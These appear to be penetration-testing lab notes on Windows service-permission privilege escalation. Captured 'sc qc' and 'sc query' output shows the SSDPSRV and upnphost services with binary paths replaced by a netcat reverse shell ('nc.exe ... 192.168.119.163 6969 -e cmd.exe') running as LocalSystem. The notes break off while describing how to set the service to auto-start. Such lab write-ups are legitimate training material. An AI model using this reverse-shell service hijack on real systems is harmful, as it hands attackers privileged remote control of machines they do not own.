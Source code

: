 
# SSDPSRV config
C:\Inetpub\wwwroot>sc qc SSDPSRV
sc qc SSDPSRV
[SC] GetServiceConfig SUCCESS

SERVICE_NAME: SSDPSRV
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\inetpub\nc.exe -192.168.119.163 6969 -e C:\WINDOWS\System32\cmd.exe  
        LOAD_ORDER_GROUP   :   
        TAG                : 0  
        DISPLAY_NAME       : SSDP Discovery Service  
        DEPENDENCIES       :   
        SERVICE_START_NAME : NT AUTHORITY\LocalService

# upnphost config
C:\Inetpub\wwwroot>sc qc upnphost
sc qc upnphost
[SC] GetServiceConfig SUCCESS

SERVICE_NAME: upnphost
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\inetpub\nc.exe -nv 192.168.119.163 6969 -e C:\WINDOWS\System32\cmd.exe  
        LOAD_ORDER_GROUP   :   
        TAG                : 0  
        DISPLAY_NAME       : Universal Plug and Play Device Host  
        DEPENDENCIES       : SSDPSRV  
        SERVICE_START_NAME : LocalSystem


# SSDPSRV status
C:\Inetpub\wwwroot>sc query SSDPSRV
sc query SSDPSRV

SERVICE_NAME: SSDPSRV
        TYPE               : 20  WIN32_SHARE_PROCESS 
        STATE              : 1  STOPPED 
                                (NOT_STOPPABLE,NOT_PAUSABLE,IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0



# Set SSDPSRV to AUTOMATIC
# NOTE: There is a space between = and auto. This is important, else the command will fail.								
								
